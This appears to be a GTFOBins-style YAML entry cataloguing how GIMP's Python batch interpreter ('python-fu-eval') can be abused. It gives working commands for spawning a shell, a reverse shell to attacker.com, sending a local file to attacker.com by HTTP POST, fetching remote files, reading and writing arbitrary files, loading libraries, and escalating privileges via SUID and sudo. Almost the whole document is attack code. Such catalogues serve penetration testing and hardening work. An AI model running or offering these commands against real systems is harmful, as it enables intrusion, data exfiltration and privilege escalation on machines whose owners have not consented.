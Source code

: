 description: The binary hangs after executing the Python code and can be terminated pressing ``ctrl-c``.
functions:
  shell:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'open("file_to_write", "wb").write("DATA")'
  file-read:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'print(open("file_to_read").read())'
  library-load:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
  sudo:
    - code: sudo gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
---
